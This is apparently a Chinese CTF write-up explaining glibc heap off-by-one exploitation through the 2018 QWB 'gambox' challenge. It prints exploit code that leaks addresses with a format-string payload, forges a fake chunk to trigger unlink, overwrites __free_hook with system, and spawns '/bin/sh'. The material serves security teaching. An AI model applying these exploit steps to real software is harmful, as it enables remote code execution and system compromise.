





## 背景
在Freebuf上看到一篇文章[Exim Off-by-One RCE漏洞（CVE-2018-6789）利用分析(附EXP)](http://www.freebuf.com/vuls/166519.html)，在ctf中经常能遇到off-by-one知识点的题型，想不到出现在了真实软件中，有点惊讶，就此机会，总结一些off-by-one的有关知识点

主要是用2018强网杯中的gambox一题作为列子，题目下载地址https://github.com/moonAgirl/CTF/tree/master/2018/QWB/gambox

## 基础知识
在正式讲解之前。先补充一些linux下堆的相关知识，本文只谈及相关知识点，具体linux堆知识可参考[glibc内存管理ptmalloc源代码分析](https://github.com/moonAgirl/pwnstudy/tree/master/resource)

### 1.chunk结构

在linux堆分配的基本单位是chunk,下图是chunk的基本结构

如果本 chunk 前面的 chunk 是空闲的，那么第一部分 prev_size 会记录前面一个 chunk 的大小，第二部分是本 chunk 的 size ,因为它的大小需要8字节对齐，所以 size 的低三位一定会空闲出来，这时候这三个位置就用作三个 Flag 

最低位P:指示前一个 chunk 是否正在使用;

倒数第二位M:指示这个 chunk 是否是通过 mmap 方式产生的;

倒数第三位N:这个 chunk 是否属于一个线程的arena。

之后的FD和BK部分只有在此 chunk 是空闲状态时会发挥作用。FD指向下一个空闲的 chunk ，BK指向前一个空闲的 chunk ，由此串联成为一个空闲 chunk 的双向链表。如果不是空闲的。那么从fd开始，就是用户数据了。

### 2.堆块重用

当当前chunk A的下一块相邻chunk B处于分配状态时，B的presize域可被A利用,具体如下，

    A = malloc(0x18);
    B = malloc(0x18);

当在64位linux下运行执行上面的堆块分配时，分配完成后，A,B的堆块结构如下：

此时B堆块的presize域作为A堆块的数据区

### 3.unlink

在free一块堆chunk内存时，会查看该块前后相邻的两块是否空闲，如果空闲的话则把他们从原来的链表上卸载出来和当前块合并在一起。分为向前合并和向后合并。

向前合并：
查看下一个块是不是空闲的 – 下一个块是空闲的，如果下下个块（距离当前空闲块）的PREV_INUSE(P)位没有设置(值为0）。为了访问下下个块，将当前块的大小加到它的块指针，再将下一个块的大小加到下一个块指针。
如果是空闲的，使用unlink操作合并它。将合并后的块添加到 unsorted bin 中。

向后合并：
查看前一个块是不是空闲的 –如果当前空闲块的PREV_INUSE(P)位为0， 则前一个块是空闲的。如果空闲，合并它。

unlink操作如下：

    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;

假设执行free(q),对于向前合并，p就是指向q这个chunk块,对于向后合并，p指向的是q的前一个chunk块
unlink还需要过一个检查,如下：

    (P->fd)->bk == (P->bk)->fd ？

即判断当前这个chunk P的后一个chunk的前一个chunk与当前这个chunk P的前一个chunk 的后一个chunk是不是同一个chunk(即P)

off-by-one的基本原理就是一字节覆盖下一个chunk的size大小引发的漏洞。千里之提，溃于蚁穴？？

基础知识介绍完毕，下面正式根据2018强网杯中的gambox讲解off-by-one

## gambox

程序有四个功能，如下：

    unsigned __int64 menu()
    {
      unsigned __int64 v0; // ST08_8
    
      v0 = __readfsqword(0x28u);
      puts("Welcome to Pig's GameBox!");
      puts("(P)lay GUESS WORDS");
      puts("(S)how RANK");
      puts("(D)elete RANK");
      puts("(C)hange RANK");
      puts("(E)xit");
      return __readfsqword(0x28u) ^ v0;
    }

分别是

Play：先过一个cookie验证，这里可以用python中的ctypes库绕过

      for ( i = 0; i <= 23; ++i )
    s0[i] = rand() % 26 + 'A';
      puts("Come on boy!Guess what I write:");
      for ( j = 0; j <= 31; ++j )
      {
    read(0, &buf, 1uLL);
    if ( buf <= '@' || buf > 'Z' )
      break;
    s1[j] = buf;
      }
      if ( !strcmp(s1, s0) )
      {
    puts("You great prophet!");
    realgame(s0);
      }

之后分配一个堆块，堆块大小用户自定义(不得大于0x1000),分配的堆块结构如下：

四个字节保存flag位，其余字节用作保存name.分配成功后将堆块地址，cookie,以及chunk大小存到保存在bss段中对应的位置

Show:将申请的所以chunk中的name打印出来

      for ( i = 0; i <= 9; ++i )
      {
    	if ( *(&rank_ptr + 6 * i) )
    	{
      		putchar(i + '0');
      		putchar(':');
      		printf(*(&rank_ptr + 6 * i));
    		}
      }

存在格式化字符串漏洞，可用来泄露libc地址（其实利用格式化字符串漏洞就可以拿到shell,不过本文主要讲off-by-one)

Delete:将指定的chunk free掉,并进行一系列清0操作

     if ( !memcmp(cookie, &my_cookie[48 * id], 8uLL) )
      {
        free(*(&rank_ptr + 6 * id));
        *(&rank_ptr + 6 * id) = 0LL;
        size_rank_the[12 * id] = 0;
        memset(&my_cookie[48 * id], 0, 0x20uLL);
        puts("Deleted!");
      }

Change：对指定的chunk 重写，存在off-by-one漏洞，可将下一个chunk的size最后一字节覆盖为0x00

          v10 = *(&rank_ptr + 6 * id);          // off-by-one
          v5 = 0;
          for ( i = 0; size_rank_the[12 * id] >= i && (v5 != 1 || s[i] != 'n' && s[i] != 'N'); ++i )
          {
            if ( s[i] == 0x25 )
              v5 = 1;
            *(i + v10) = s[i];
          }
          puts("Changed OK!");
          memset(s, 0, (size_rank_the[12 * id] + 10));

程序功能分析完了，下面开始利用。

## off-by-one利用

1.利用格式化漏洞泄露libc地址和程序地址，算出所需符号地址

    data0 = play(0x120,'%13$lxAAAA%15$lxBBBB%9$lx') #0

    Show()
    libc_start_main = libc.symbols['__libc_start_main']
    io.recvuntil('0:')
    data = int(io.recv(12),16) #__libc_start_main+F0
    io.recvuntil('BBBB')#main+61
    data2 = int(io.recv(12),16)

    main = 0x0000000000001874
    base = data2 - main - 0x61
    libc_base = data - libc.symbols['__libc_start_main'] - 0xF0
    system_addr = libc_base + system_libc
    free_hook_addr = libc_base + free_hook

    success('base:'+hex(base))
    success('libc_base:'+hex(libc_base))
    success('system_addr:'+hex(system_addr))
    success('free_hook_addr:'+hex(free_hook_addr))

2.off-by-one

先申请三个堆块

    data1 = play(0x108,'aaa') #1
    data2 = play(0x120,'aaa') #2
    data3 = play(0x120,'/bin/sh\x00') #3

此时堆中情况如下：

在重新编辑chunk 1,在此利用off-by-one将chunk 2的size覆盖为0x100

    rank_ptr = 0x0000000000203100
    ptr = rank_ptr + 0x30
    buf = p64(0)+p64(0x101)
    buf += p64(base+ptr-0x18)+p64(base+ptr-0x10)+'a'*0xe0+p64(0x100)
    Change(1,data1,buf)

堆中情况变化如下：

再free chunk2
    
       Delete(2,data2)

并且由于off-by-one和以及我们已经在堆上构造了一个伪chunk，所以造成unlink,free结束后bss中保存chunk 1堆块位置的指针就指向这个地址前0x18位

这个时候我们往chunk 1 中写入数据，就是往bss段中写入数据，我们通过向chunk 1中写数据将bss上保存chunk 1的地址写为free_hook地址

    buf2 = 'a'*24 + p64(free_hook_addr)
    Change(1,data1,buf2)

那么此时再编辑chunk 1就是编辑free_hook地址处的值了，我们在此写入system的地址

     Change(1,data1,p64(system_addr))

之后再调用free函数就相当于调用system函数了

3.get shell

我们之前申请了一块堆中保存有字符串'/bin/sh\x00',我们free它，就相当于执行system('/bin/sh')了，get shell.

    Delete(3,data3)

完整脚本在此[exp](https://github.com/moonAgirl/CTF/blob/master/2018/QWB/gambox/game.py)

## 最后

off-by-one漏洞并不能单独使用，需要结合其他操作才能最终漏洞利用，在ctf中算是简单题型

参考：

    堆溢出unlink思路：https://www.tuicool.com/articles/aA3UJ3r
    double free浅析：https://www.tuicool.com/articles/yquU732